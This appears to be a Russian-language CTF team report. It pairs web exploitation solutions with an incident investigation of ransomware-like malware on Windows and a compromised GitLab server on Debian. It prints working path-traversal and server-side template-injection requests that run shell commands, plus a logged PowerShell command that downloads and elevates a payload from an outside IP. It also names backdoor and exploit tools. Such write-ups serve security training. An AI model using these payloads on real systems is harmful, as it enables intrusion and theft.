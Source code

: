 # Отчёт команды "The Vermillion Team" (No. 26)
## Part 1. Наступательная кибербезопасность.

### Web-10

В этом задании представлена обычная уязвимость **Path Traversal**. На бэкенде можно подгружать любые файлы.
```
GET /download?file_type=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fsecret HTTP/1.1
Host: 192.168.12.10:5001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://192.168.12.10:5001/
Upgrade-Insecure-Requests: 1
```

Флаг: `nto{P6t9_T77v6RsA1}`


### Web-20

В этом задании пейлоад работает через Spring View Manipulation + SSTI под thymeleaf. Соответственно:
```
GET /doc/__%24%7Bnew%20java.util.Scanner%28T%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22cat%20password.txt%22%29.getInputStream%28%29%29.next%28%29%7D__%3A%3A.x. HTTP/1.1
Host: 192.168.12.13:8090
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
```

Отсюда получаем наш пароль и следующим запросом получаем флаг.
```
GET /login?password=33a61c66899af2114c8f98d80ceb2857 HTTP/1.1
Host: 192.168.12.13:8090
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
```

Флаг: `nto{abobovichasdfas}`

### Web-30

В этом задании есть фильтр, отсеивающий запросы, начинающиеся с `/flag`. Через // обходим данную проверку. Дальше код в любом случае выполнит наш код независимо от того, содержатся в нем запрещенные символы или нет.
```
GET //flag?name={%7b+self.__init__.__globals__.__builtins__.__import__('os').popen('cat+flag.txt').read()+}} HTTP/1.1
Host: 192.168.12.11:8001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
```

Флаг: `nto{Ht1P_sM088Lin6_88Ti}`


## Part 2. Расследование инцидента.

### Виртуальная машина на ОС "Windows 10"

#### 1. Каким образом вредоносное ПО попало на компьютер пользователя? (5 PTS)

Согласно легенде, файл был отправлен Валере незнакомцем. Можно утверждать, что ВПО попало на компьютер пользователя в результате **фишинга** (человеческого фактора).

#### 2. С какого сервера была скачана полезная нагрузка? (5 PTS)

Рассмотрим журнал логирования событий Windows. В ходе поиска по ключевому слову `http://` мы нашли следующее вхождение:
```
ProviderName=FileSystem NewProviderState=Started SequenceNumber=7 HostName=ConsoleHost HostVersion=5.1.19041.906 HostId=9da22629-af52-4b50-a1e3-c0b8ad39c1a1 HostApplication=powershell -command ($drop=Join-Path -Path $env:APPDATA -ChildPath Rjomba.exe);(New-Object System.Net.WebClient).DownloadFile('http://95.169.192.220:8080/prikol.exe', $drop); Start-Process -Verb runAs $drop EngineVersion= RunspaceId= PipelineId= CommandName= CommandType= ScriptName= CommandPath= CommandLine=
```

Cледовательно, файл был скачан с сервера `95.169.192.220`.

#### 3. С помощью какой уязвимости данное ВПО запустилось? В каком ПО? (5 PTS)

При помощи CVE на WinRAR, выполняющейся в cmd.

#### 4. Какие методы противодействия отладке использует программа? (10 PTS)

Встроенные функции (`IsDebuggerPresent()`, `CheckRemoteDebuggerPresent()`) для проверки присутствия отладчика, TLS Callbacks (`TlsAlloc()`, `TlsGetValue()`, `TlsSetValue()`).

#### 5. Какой алгоритм шифрования используется при шифровании данных? (10 PTS)

Откроем файл вируса по пути `…/AppData/Roaming/Rjomba.exe`. В нем при использовании команды `binwalk` можно обнаружить `AES S-BOX` и `INVERSE AES S-BOX`. При поиске в обычном текстовом редакторе можно натнуться на сообщения про некорректное использование Cipher Mode. Перебором всех главных режимов работы AES находим упоминание **CBC** (Cipher Block Chaining). Нетрудно обнаружить и поле с упоминанием длины шифроключа (**256** бит). Значит, при шифровании данных использовался протокол *AES-CBC-256*.

#### 6. Какой ключ шифрования используется при шифровании данных? (25 PTS)

Значение ключа шифрования хранится в памяти, следовательно, чтобы получить ключ, необходимо осуществить дамп памяти. Одним из инструментов, которые могут помочь нам с этим, является **Process Explorer**. Установим его и перебросим на виртуальную машину. Чтобы избежать антиотладки, переименуем тулзу и запустим Rjomba.exe. Сделаем дамп памяти процесса rjomba.exe. Дальше в этом дампе найдем строки, похожие на ключ (длиной 32):
```bash
strings Rjomba111.dmp | grep -x '.\{32,32\}'
```
Находим значение `amogusamogusamogusamogusamogusam`. Чтобы найти вектор инициализации, сделаем поиск по этой строке:
```bash
strings Rjomba111.dmp | grep -x '.\{16,32\}'
```
\- и найдём вектор иницилизации: `abababababababab`.

#### 7. Куда злоумышленник отсылает собранные данные? Каким образом он аутентифицируется на endpoint? (20 PTS)

В том же дампе находим вебхуки `Telegram`. Злоумышленник отсылает собранные данные именно туда, а на endpoint аутентифицируется посредством токена.

#### 8. Каково содержимое расшифрованного файла pass.txt на рабочем столе? (40 PTS)

Зная значение ключа, вектора инициализации и значение пароля, возможно однозначно расшифровать сообщение. При помощи инструмента CyberChef получаем итоговый ответ: ```sFYZ#2z9VdUR9sm`3JRz```.

### Виртуальная машина на ОС "Debian"

#### 1. Какой сервис на данном сервере уязвим? Какая версия? (20 PTS)

По пути `/opt/gitlab/` на диске расположен уязвимый **gitlab**. В файле **version-manifest.txt** указана его версия (15.2.2). Следовательно, ответом является `Gitlab v15.2.2`. 

#### 2. Какой тип уязвимости использовал злоумышленник? (20 PTS)

Под сервис Gitlab существует "authenticated RCE vulnerability" `CVE-2022-2884`, злоумышленник воспользовался именно ею. (Ссылка для ознакомления: [тут](https://github.com/m3ssap0/gitlab_rce_cve-2022-2884))

#### 3. Какие ошибки были допущены при конфигурации сервера? (20 PTS)

...


#### 4. Как злоумышленник повысил привилегии? (20 PTS)

...


#### 5. Как злоумышленник получил доступ к серверу на постоянной основе? (20 PTS)

Он закрепил свой ssh-ключ за суперпользователя под свой host по пути `/root/.ssh/authorized_keys`.

#### 6. Как злоумышленник просканировал систему? (10 PTS)

Через утилиту linpeas (в папке `/root` лежит файл `.bash_history`, в этом файле злоумышленник удалил вывод linpeas (`rm -rf /tmp/linpeas.txt`)).

#### 7. С помощью какого ВПО злоумышленник закрепился на сервере? (10 PTS)

С помощью инструмента для backdoor ([нажать сюда](https://github.com/chokepoint/Jynx2/tree/master)). Она скомпилирована в корне `/root/autokitter.sh`.

